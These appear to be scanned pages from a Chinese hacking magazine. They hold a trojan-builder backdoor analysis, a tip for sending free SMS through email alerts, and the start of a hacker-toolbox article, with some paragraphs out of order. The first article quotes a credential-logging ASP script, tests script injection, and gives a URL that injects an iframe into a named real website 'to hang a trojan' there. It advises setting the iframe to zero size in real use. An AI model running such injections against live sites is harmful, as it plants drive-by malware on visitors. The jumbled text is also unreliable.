

新建了 C:\Documents and Settings\Administrator\Local Settings\Temp\IXP003.TMP\123.exe。

很明显软件本身在运行的同时释放了一个 123.exe，而 NOD32 查杀到的也就是这个文件。

接着我们用 peid 查下 123.exe，如图 4。

EP 段是 .nspl，经常搞免杀的应该知道，这是北斗的壳，我们再看看区段 vmp，如图 5。

这个一看就是用 vmprotect 做的免杀，至于 123.exe 是什么

## 木马咱门就不继续分析了，接下来分析他生成后的文件是不是危害很大。

先随便配置一个木马。如图 6。



图 5 查看区段 vmp



图 6 配置一个木马

用 Ollydbg 手工给他脱壳，esp 定律法，如图 7。

脱壳成功后再用 PEiD 检测下，如图 8。

接着用 c32asm 对他进行反汇编，搜索 asp，如图 9。

看到了什么？刚才我默认设置的应该是 httpk.thec.cnxieming69qqq.asp 才对，怎么会是 httplangyeqq.cnqqnewbacka.asp 这个呢？我们浏览看看，如图 10。

看到了吧，说明就是他盗号的，从这些可以确定，这个软件不但运行的时候释放一个木马，而且就连我们配置好的文件也被他留了后门，而作者就坐等看收号了。



图 7 手工脱壳

看到这，想必大家也和我一样非常气愤，难道我们就任由作者下马吗？当然不，现在我们就开始反击！

我们来看看 qq.asp 的代码，其中有这一句：“strLogFile=Q7.txt”，这个是 QQ 接收文件，默认的是 q7.txt。

继续看代码：

```


QQNumber=request(QQNumber)
QQPassWord=request(QQPassWord)
QQclub=request(QQclub)
QQip=request(QQip)
```

是没经过任何过滤的，这些参数的数据我们完全可以自定义。再往下看：



图 8 再用 PEID 检测



图 9 搜索 asp 的结果

```

if QQNumber= or QQPassWord= then
  response.write pzQQ
  response.end
```

假如 QQNumber 和 QQPassWord 的值为空就返回 pzQQ，然后程序结束工作。只要这两个值不为空就继续执行下面的代码：

```

StrLogText=StrLogText&QQNumber&-------&QQPassWord&-------会员&QQclub&-------IP&QQip&(&request.servervariables(REMOTE_HOST)
StrLogText=StrLogText&")"
```

写入 q7.txt 文件，格式为 QQ 号码------QQ 密码------会员------IP。继续看下面的代码：



图 10 浏览有问题的内容



图 11 发送的结果

```

set f=Server.CreateObject(scripting.filesystemobject) (没有 q7.txt 这个文件就自动新建)
set ff=f.opentextfile(server.mappath(.)&"&strLogFile,8,true,0)
ff.writeline(StrLogText) (打开 q7.txt 并写入数据)
```

最后 response.write 发送成功！满足条件提示成功。

所有的代码也就是这些，程序并未做任何过滤和处理，也就是说只要满足 qq.asp?QQNumber=123&QQPassWord=123 就会返回“发送成功！”的提示。我们提交“http://www.ciker.org/soft/qq.asp?QQNumber=123&QQPassWord=123”，结果如图 11。



图 12 提交脚本的结果



图 13 挂马的结果

这就证明了 QQNumber=123&QQPassWord=123 这两个我们是可以自己定义的，如果我们写入的不是数字，而是一段脚本代码会怎么样呢？会不会执行呢？让我们来试一下，提交“http://www.ciker.org/soft/qq.asp?QQNumber=123&QQPassWord=<scriptalert(fhod)script”，结果如图 12。

这证明提交的数据是无任何限制的，我们完全可以发挥想象，插入任何代码都可以。如果想反挂的话，我们就可以提交以下数据“http://www.ciker.org/soft/qq.asp?QQNumber=123&QQPassWord=iframe%20src=http://www.ciker.org%20width=480%20height=480iframe”，如图 13。

# 发免费信息可以这样玩

By Smart

- 从本文您可以学到：
- 通过邮箱的短信提醒功能免费发短信

许多人一直在寻找免费发信息的途径，网络上倒是会有很多网站、软件什么的免费发信息，但发送效果都不太理想，要么很晚才收到，要么根本就不发出去，而我们需要的是免费、快速、稳定的服务，例如：通过一些套餐可以免费一部份的信息费，这是合法途径；要么把一个收费发信息的网站黑掉（非法的事我们不做）。下面我就来介绍一下两种免费发送信息的方式：

## 一、中国移动的飞信（全国通用）

若你是移动的用户通过注册一个飞信号，就可以实现免费发送信息了，通过飞信 PC 客户端给好友发信息，不收费。用手机短信的方式，给飞信好友发信息，收取短信费。收费标准和各品牌（例如动感地带）短信收费标准相同，使用方法详见 http://www.fetion.com.cn。虽然发信息是免费了，但只能是移动用户给移动用户发，局限性太大了。

## 二、利用邮件达到提示功能来发送信息

首先，要将你的手机号与邮箱捆绑，由于我是湖北的移动用户，当然是访问湖北移动哦！打开 http://www.139hb.com/portal/local/index.html，“免费短信通知——新邮件一到，短信先报告。实时跟踪邮箱动态，不登录也状况全知道！”吸引了我的眼球，见图 1。



图 1 湖北移动的页面

由于该网站提供了免费邮件的服务，这样一来免费发信息的想法就可以实现了。注册我就不多说了，注册完毕后邮箱地址就是“你的手机号码@139hb.com”。若你觉得地址不太好记，可以通过“我的设置——>用户别名设置”来添加便于记忆的名字，见图 2。



图 2 设置别名

……然后用其他任何邮箱给这个新注册的邮箱发邮件，见图 3。注意：我们只能通过邮件的主题

当然我这里把 width 和 height 设置为“480”，只是为了方便演示，实际挂马中要改为“0”。
好了，现在我们就可以给作者一个惊喜去了。

> 编辑点评：
木马上面有后门，这早已经不是秘密的秘密了。现在网上能找到的大多数木马基本上都有隐藏的后门，以后再拿到木马的时候，不妨先用文中的思路检查一下，去掉其中的后门，免得天天给别人做嫁衣。

来表达自己的意思，因为邮件达到提示功能是不会显示邮件内容的。我在主题里写了 100 个字，本想看看邮件到达提示能不能显示多少的，没有想到当邮件到达时就把这条超长的文字分成多段信息发送，由于可以显示这么多字，我也没有必要测试其极限了，见图 4、图 5。



图 3 发送邮件



图 4 图 5 收到短信

## 最后：

我们只要把这个邮件地址给自己的好友们，不管他们是移动用户还是联通用户，只要拥有邮箱都可以免费给我发信息了（其他地区的未做测试，有兴趣的可以尝试一下哦）。本人测试了 qq 的邮箱，发送的速度相对比较快一点，邮件发出后 5 秒，手机就可以收到信息了。有的朋友会问，我发出去后怎么知道对方有无收到信息呢？对于这个问题解决方式是，设置邮箱的自动回复功能即可。

> 编辑点评：
生活中真是到处充满了惊喜，只要你用心的去寻找发现，并加以利用。比如文中提到的方法，我们还可以稍微改造，改造成服务器的入侵短信自动报警系统啦什么的。别忽略身边的小事情，发挥出他们最大的价值吧。

# 打造自己的黑客工具箱

⌨ Licess

- 从本文中您可以学到：工具箱的制作

## 一、简介

看《黑客手册》这么长时间了还是第一次给《黑客手册》写稿子，呵呵，有点紧张啊。

相信大家在网上看过很多视频，但是发现很多作者把自己的黑客工具放的乱七八糟，做视频的时候还在硬盘里找工具，于此同时也浪费了时间。

今天带给大家的是一款仿 QQ 样式的工具箱——音速启动，如图 1。音速启动是绿色软件，仅仅在注册表中生成一点点版本信息而已。看界面是不是很像 QQ？这样我们更容易上手。



图 1

### 功能介绍：

- 1. 超方便管理软件、文件夹、网址、以及强大的系统功能。
- 2. 无数量限制的热键设定，一键执行任何需要的功能。
- 3. 创新的图标缓存技术，彻底解决 EXE 图标读取慢的问题。

+   4. 漂亮的 QQ 式界面，强大的换肤功能（拥有众多皮肤）。
5. 低于 2MB 的内存消耗，零 CPU 占用，不增加系统负担。
6. 邮件检测、收集面板、天气预报等实用功能插件，一款搞定。

## 二、工具箱打造

首先看下面添加工具时用到的各个功能按钮。如图 2，图中指出了各个按钮的代号。

